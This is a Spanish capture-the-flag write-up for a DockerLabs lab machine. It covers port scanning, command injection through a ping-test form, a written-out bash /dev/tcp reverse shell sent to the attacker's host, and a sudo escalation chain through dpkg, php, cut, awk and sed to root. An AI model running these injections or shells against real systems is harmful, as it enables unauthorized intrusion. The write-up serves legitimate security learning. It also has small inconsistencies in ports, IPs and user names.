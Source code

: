 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/69e0bac4-e800-4676-9973-e9c55141f3d7)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos

2.  **80/tcp(HTTP):** Apache httpd 2.4.58 (Ubuntu)
3. **443/tcp(SSL-HTTP):** Apache httpd 2.4.58
4. **5000/tcp(UPNP):** Samba smbd 4.6.2
### Puerto 8
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevo a la pagina por defecto de Apache2 Ubuntu.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1970bab5-8050-4cff-93a7-26249bf397f2)

# Fase 2- Exploración

#### FeroxBuster
```r
200      GET      205l      421w     6989c http://172.17.0.2/machine.php
```
Encontramos el archivo `/machine.php`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2b1cd60f-86d6-4a3e-aac5-9ebf09116cf6)
Es una lista de maquinas de `Dockerlabs.es`.

#### 5000
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e1a4e362-42c6-4732-86b3-df7e544b5ddb)
En el escaneo de nmap el puerto `5000 UPNP`, estaba abierto. Y esta corriendo una pagina web. Dicha web consiste en ingresar una ip y comprobar si tenemos conectividad con la misma.

# Fase 3- Explotación

#### ping test
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0524ff87-7c5c-498f-92aa-089368cf7317)

Al poner mi propia ip se ve como si hiciera un ping desde mi maquina.
Si ponemos algo mal a propósito:
```python
   Ping Test
----------------
| 192.168.1.2' |
|--------------|
```
El resultado es:
```python
Command 'ping -c 4 192.168.1.2asdsads' returned non-zero exit status 2.
```
Nos devuelve el error de comando que se esta ejecutando. Podríamos intentar ejecutar un comando:
```python
Command 'ping -c 4 192.168.1.2 && ls' returned non-zero exit status 2.
```
Resultado:
```python
PING 192.168.1.2 (192.168.1.2) 56(84) bytes of data.
64 bytes from 192.168.1.2: icmp_seq=1 ttl=64 time=0.042 ms
64 bytes from 192.168.1.2: icmp_seq=2 ttl=64 time=0.051 ms
64 bytes from 192.168.1.2: icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from 192.168.1.2: icmp_seq=4 ttl=64 time=0.070 ms

--- 192.168.1.2 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3076ms
rtt min/avg/max/mdev = 0.041/0.051/0.070/0.011 ms
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```
Tenemos ejecución remota de comandos!

Vamos a probar enviarnos esta reverse shell:
```python
192.168.1.2 && bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1"
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/98bc2111-3962-43a6-9a0f-28c835f33c75)

Y nos llego la reverse shell!

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/31521f18-9097-4022-8a86-d3e0497babea)

Despues de realizar el tratamiento de la TTY, vemos que podemos ejecutar el binario `dpkg` como usuario `bobby`.

#### Dpkg
```python
sudo -u bubby dpkg -l
!/bin/sh
```
Para escalar privilegios usando dpkg tenemos que ejecutar estos comandos.

```python
!/bin/sh
$ whoami
bobby
$ 
```
Somos el usuario bobby.

#### Bobby
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/004b7a73-62f1-4ff0-bdbb-ab3d60abbc58)

Como el usuario `bobby` después de realizar el tratamiento de la TTY, vemos que podemos ejecutar el binario `php` como el usuario Gladys.

#### php
```r
CMD="/bin/sh"
sudo -u gladys php -r "system('$CMD');
```
Para escalar al usuario Gladys tenemos que ejecutar esos comandos.

```r
bobby@ff1758409eaa:/home/freddy$ sudo -u gladys php -r "system('$CMD');"
$ whoami
gladys
```
Y somos usuario Gladys!.

#### Gladys
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/97ae67c8-071d-4354-b087-e1f505e9c81d)

Despues de realizar el tratamiento de la TTY, vemos que podemos ejecutar el binario `cut` como el usuario `chocolatito`.

#### cut
```r
LFILE=file_to_read
sudo cut -d "" -f1 "$LFILE"
```
Para escalar al usuario chocolatito tenemos que ejecutar ese comando.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4b3b93fa-3d42-4221-97ae-3ff717ea5023)

Encontré en `/opt` el archivo `chocolatitocontraseña.txt`.
```r
$ sudo -u chocolatito cut -d "" -f1 chocolatitocontraseña.txt
chocolatitopassword
$ su chocolatito
Password: 
$ whoami
chocolatito
```
Somos el usuario chocolatito!

#### Chocolatito
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b0e9e9ea-c905-494f-bf4a-d210efcb3056)

Como el usuario `chocolatito` podemos ejecutar el binario `awk` como usuario `theboss`.



#### Awk
Para escalar necesitamos ejecutar el comando:
```r
chocolatito@ff1758409eaa:/home$ sudo -u theboss awk 'BEGIN {system("/bin/sh")}'
whoami
theboss
```
Y somos usuario theboss!.

#### Theboss
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fec94b89-5ba1-4a28-9319-e486bf8f7db6)

Como el usuario `theboss` podemos ejecutar el binario `sed`.

#### Sed
```r
theboss@ff1758409eaa:/home$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
whoami
root
```
Y escalamos a root!.

